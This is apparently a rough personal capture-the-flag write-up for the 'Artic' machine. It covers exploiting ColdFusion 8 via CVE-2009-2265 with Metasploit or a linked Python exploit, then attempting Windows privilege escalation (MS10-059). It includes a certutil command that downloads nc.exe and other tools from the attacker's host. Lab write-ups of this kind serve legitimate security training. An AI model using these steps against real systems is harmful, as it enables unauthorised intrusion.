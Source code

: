 
Name: Artic
Date:  
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon

![ping](Screenshots/ping-os-test.png)

There is some kind of anti-bruteforcing in place on the web server. 
Reset the box once to check and the second to continue without bruteforcing anything.
Here are the two directories:
![dirs1](Screenshots/cfdocs-dir.png)

![dirs2](Screenshots/cfide-dir.png)

`CFIDE/wizards/common/_logintowizard.cfm` and `/CFIDE/wizards/common/_authenticatewizarduser.cfm`
The default password `admin` works but so does anything else as templates but neither is linked to actual functionality of the site. Tried default password on the /administrator. Did not work. I also tried injecting a request to wait tcpdump to see if &path= variable was exploitable before dorking exploits for abode fusion 8. 

## Exploit

There is a [metasploit module](https://www.exploit-db.com/exploits/16788) for [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265). 
Before changes:
![metasploit](Screenshots/metasploit-setup.png)

I tried on the second it worked, with the smae settings: 
```bash
set lhost tun0
set rport 8500
```
Due to the OSCP restrictions on Metasploit usage.
Here is a good is a good [python exploit](https://github.com/0xkasra/CVE-2009-2265)
![exploit](Screenshots/exploit.png)

![listen](Screenshots/listener.png)

![foothold](Screenshots/foothold.png)

Included in screenshot are possible privesc through user privileges which I may return once I enumerate the box.

![systeminfo](Screenshots/systeminfo.png)

`C:\Users\tolis\Desktop\user.txt`

## PrivEsc

Used certutil to transfer nc.exe, windowsprivchecker.bat and wes-ng
I tried alot of other things that kicked me off or did not run in either /runtime/bin and /users/tolis


```powershell
certutil.exe -urlcache -split -f "http://$IP/$tools"
```

Basically I would have to blow my metasploit on this machine.
Before reading a writeup to the walkthrough the same process I will redo the metasploit version with the post module as meterpreter just seems although a good way to end in one usage, I am at the PrivEsc phase. Plus I have not use it enough so far. Even the post module did not work. Then meterpreter did not work. I research ways to host files on windows as it seems like a hobby at this point finding and archiving every possible way to transfer files. I ended up copying and pasting into a systeminfo.txt file to this directory. Wesng works, but does not find the intend route. 

```bash
./wes.py --update
./wes.py systeminfo.txt > wesng-out.txt
```
There is a kernel exploit for the cpu that has metasploit module to it. I tried that did not work as well doing it manually compiling it, but I could not finder one of the headers. Write ups suggest a pre-compiled binary. That seems really stupid. There is metasploit module for this so this machine is basically goodbye your metasploit usage in the exam machines given time constraints. 

[manual](https://www.exploit-db.com/exploits/15589) Seems like there are errors in the script.

At this point after multiple days trying to crack this. I revert this to a walkthrough for the remaining part.
From a multitude of writeups that I have then read and watched, either its through metasploit... or a precompiled binary from github...
I will return after complete all the others to retry without the precompiled binary. 
MS10-059
